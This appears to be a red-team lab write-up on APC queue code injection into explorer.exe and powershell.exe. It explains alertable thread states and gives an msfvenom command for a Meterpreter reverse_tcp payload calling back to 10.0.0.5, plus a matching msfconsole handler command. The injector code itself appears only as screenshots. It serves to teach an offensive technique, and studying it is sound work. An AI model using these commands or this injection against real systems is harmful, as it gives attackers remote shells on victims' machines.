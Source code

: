 # Table of Contents  

- [APC Queue Code Injection](#apc-queue-code-injection)
- [Execution](#execution)
- [States](#states)
  * [Alertable State](#alertable-state)
  * [Non-Alertable State](#non-alertable-state)
- [Powershell -sta](#powershell--sta)
- [References](#references)

# APC Queue Code Injection

This lab looks at the APC (Asynchronous Procedure Calls) queue code injection.

Some simplified context around threads and APC queues:

<ul>
 <li>Threads execute code within processes</li>
 <li>Threads can execute code asynchronously by leveraging APC queues</li>
 <li>Each thread has a queue that stores all the APCs</li>
 <li>Application can queue an APC to a given thread (subject to privileges)</li>
 <li>When a thread is scheduled, queued APCs get executed</li>
 <li>Disadvantage of this technique is that the malicious program cannot force the victim thread to execute the injected code - the thread to which an APC was queued to, needs to enter/be in an alertable state (i.e SleepEx)</li>
</ul>

# Execution

A high level overview of how this lab works:

<ul>
 <li>Write a C++ program apcqueue.exe that will:</li>
  <ul>
   <li>Find explorer.exe process ID</li>
   <li>Allocate memory in explorer.exe process memory space</li>
   <li>Write shellcode to that memory location</li>
   <li>Find all threads in explorer.exe</li>
   <li>Queue an APC to all those threads. APC points to the shellcode</li>
  </ul>
 <li>Execute the above program</li>
 <li>When threads in explorer.exe get scheduled, our shellcode gets executed</li>
 <li>Meterpreter shells</li>
</ul>

Let's start by creating a meterpreter shellcode to be injected into the victim process:

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c```

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/0dfb28ae-e96e-46bc-a456-cbded60b1e74)

I will be injecting the shellcode into ```explorer.exe``` since there's usually a lot of thread activity going on, so there is a better chance to encounter a thread in an alertable state that will kick off the shellcode. I will find the process I want to inject into with ```Process32First``` and ```Process32Next``` calls:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/a193702e-2659-4f2f-97e5-e49d460be6cb)

Once explorer PID is found, we need to get a handle to the explorer.exe process and allocate some memory for the shellcode. The shellcode is written to explorer's process memory and additionally, an APC routine, which now points to the shellcode, is declared:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/01153163-bbc4-41ca-8033-65d934a8fbed)

If we compile and execute ```apcqueue.exe```, we can indeed see the shellcode gets injected into the process successully:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/556f6b57-eaae-40e4-a3d6-28e73bd70c50)

A quick detour, the below shows a screenshot from the Process Hacker where our malicious program has a handle to explorer.exe, good to know for debugging and troubleshooting:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/78c455cb-2521-489b-837c-0331d2a28abc)

Back to the code, we can now enumerate all threads of explorer.exe and queue an APC (points to the shellcode) to them:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/94350f26-3b24-455b-88bb-cbe9945f57ee)

Switching gears to the attacking machine, let's fire up a multi handler and set an ```autorunscript``` to migrate meterpreter sessions to some other process before they die with the dying threads:

```
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
set autorunscript post/windows/manage/migrate
```

Once the ```apcqueue``` is compiled and run,  a meterpreter session is received - the technique worked:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/19be68e9-9a50-4e3b-8f05-10dd0a4550d5)

# States

As mentioned earlier, in order for the APC code injection to work, the thread to which an APC is queued, needs to be in an ```alertable``` state. 

To get a better feel of what this means, I created another project called ```alertable``` that only did one thing, slept for 60 seconds. The application was sent to sleep using (note the important second parameter):

```
DWORD SleepEx(
  DWORD dwMilliseconds,
  BOOL  bAlertable
);
```

Let's put the new project to sleep in both alertable and non-alertable states and see what heppens when an APC is queued to it.

# Alertable State

Let's compile the ```alertable.exe``` binary with ```bAleertable = true``` first and then launch the ```apcqueue.exe```.

Since ```alertable.exe``` was in an alertable state, the code got executed immediately and a meterpreter session was established:

![image](https://github.com/0x074b/Code.Process-Injection/assets/83349783/4b335638-46f9-4133-bc64-2f9249eb5cda)

# Non-Alertable State

Now let's recompile ```alertable.exe``` with ```bAlertable == false``` and try again, shellcode does not get executed:

![image (1)](https://github.com/0x074b/Code.Process-Injection/assets/83349783/fcabb3d3-98b4-4bdf-9f54-2353fd2afcbc)

# Powershell -sta

An interesting observation is that if you try injecting into powershell.exe which was started with a ```-sta``` switch (Single Thread Apartment), we do not need to spray the APC across all its threads, main thread is enough and gives a reliable shell:

![apc-powershell](https://github.com/0x074b/Code.Process-Injection/assets/83349783/618ba99e-8e65-431b-90b7-a18042fa5e2c)

Note that the injected powershell process becomes unresponsive. 

# References

> https://blogs.microsoft.co.il/pavely/2017/03/14/injecting-a-dll-without-a-remote-thread/



































